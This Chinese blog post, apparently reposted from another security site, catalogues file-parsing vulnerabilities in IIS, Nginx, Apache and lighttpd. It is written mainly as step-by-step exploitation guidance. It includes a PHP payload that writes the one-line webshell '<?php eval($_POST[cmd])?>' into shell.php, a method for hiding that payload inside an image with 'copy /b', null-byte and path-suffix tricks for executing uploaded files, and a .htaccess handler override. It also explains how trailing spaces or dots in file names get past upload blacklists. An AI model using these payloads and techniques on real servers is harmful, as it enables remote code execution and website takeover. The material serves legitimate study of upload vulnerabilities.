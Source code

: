 ```yaml
---
layout: post
title: 服务器解析漏洞汇总
categories: 服务器解析漏洞
description: 服务器解析漏洞
keywords: 漏洞,解析漏洞,IIS,Nginx,Apache
---
```


### IIS 6.0

#### 目录解析：/xx.asp/xx.jpg  xx.jpg可替换为任意文本文件(e.g. xx.txt)，文本内容为后门代码

IIS6.0 会将 xx.jpg 解析为 asp 文件。

#### 后缀解析：/xx.asp;.jpg     /xx.asp:.jpg(此处需抓包修改文件名)

IIS6.0 都会把此类后缀文件成功解析为 asp 文件。

（站长评论：IIS6.0解析漏洞的成因，可以查阅罗哥写的一篇短文：IIS文件名解析漏洞扼要分析）

{/xx.asp:.jpg 此类文件在Windows下不允许存在，:.jpg被自动除去，剩下/xx.asp}

（站长评论：发现错误，并不是不允许存在，这种路径叫做“NTFS数据流”，具体见：IIS6使用冒号上传漏洞，发现IIS6漏洞(上传利用) 底下的评论）

#### 默认解析：/xx.asa    /xx.cer   /xx.cdx

IIS6.0 默认的可执行文件除了 asp 还包含这三种

（站长评论：这种主要是由于在 IIS 默认配置中，这几个后缀默认由 asp.dll 来解析，所以执行权限和 .asp 一摸一样，你可在配置中自行删除该后缀，以防止安全隐患）

此处可联系利用目录解析漏洞 /xx.asa/xx.jpg 或 /xx.cer/xx.jpg 或 xx.asa;.jpg

### IIS 7.0/IIS 7.5/Nginx <=0.8.37

IIS 7.0/IIS 7.5/Nginx <=0.8.37

在默认Fast-CGI开启状况下,在一个文件路径(/xx.jpg)后面加上/xx.php会将 /xx.jpg/xx.php 解析为 php 文件。

常用利用方法： 将一张图和一个写入后门代码的文本文件合并 将恶意文本写入图片的二进制代码之后，避免破坏图片文件头和尾

e.g.  copy xx.jpg/b + yy.txt/a xy.jpg

######################################

/b 即二进制[binary]模式

/a 即ascii模式 xx.jpg正常图片文件

yy.txt 内容 <?PHP fputs(fopen(‘shell.php’,’w’),'<?php eval($_POST[cmd])?>’);?>

意思为写入一个内容为 <?php eval($_POST[cmd])?> 名称为shell.php的文件

######################################

找个地方上传 xy.jpg ,然后找到 xy.jpg 的地址，在地址后加上 /xx.php 即可执行恶意文本。

然后就在图片目录下生成一句话木马 shell.php 密码 cmd

### Nginx <=0.8.37

在Fast-CGI关闭的情况下，Nginx <=0.8.37 依然存在解析漏洞

在一个文件路径(/xx.jpg)后面加上%00.php会将 /xx.jpg%00.php 解析为 php 文件。

（站长评论：从 /test.jpg/x.php 演变过来的，具体可以参考：Ngnix 空字节可远程执行代码漏洞）

### Apache

后缀解析：test.php.x1.x2.x3

Apache将从右至左开始判断后缀，若x3非可识别后缀，再判断x2，直到找到可识别后缀为止，然后将该可识别后缀进解析

test.php.x1.x2.x3 则会被解析为php

经验之谈：php|php3|phtml 多可被Apache解析

（站长评论：关于 apache 解析漏洞可以查阅“Apache 漏洞之后缀名解析漏洞”）

### 其他一些可利用的

在windows环境下，xx.jpg[空格] 或xx.jpg. 这两类文件都是不允许存在的，若这样命名，windows会默认除去空格或点，这也是可以被利用的！

在向一台windows主机上传数据时，你可以抓包修改文件名，在后面加个空格或点，试图绕过黑名单，若上传成功，最后的点或空格都会被消除，这样就可得到shell。

我记得Fck Php 2.6就存在加空格绕过的漏洞。{Linux主机中不行，Linux允许这类文件存在}

如果在Apache中.htaccess可被应用（Apache的配置文件httpd.conf中对目录的AllowOverride设置为All时，apache会应用目录下.htaccess中的配置 By sfasfas），

且可以被上传，那可以尝试在.htaccess中写入:

<FilesMatch “shell.jpg”> SetHandler application/x-httpd-php </FilesMatch>

shell.jpg换成你上传的文件，这样shell.jpg就可解析为php文件

### lighttpd

xx.jpg/xx.php

[Add by El4pse]

PS:我并不保证我写的全对哦，如果有错的或遗漏的，请各位朋友帮忙纠正一下，谢谢

##### 以上转载于：<http://www.cnseay.com/806/>
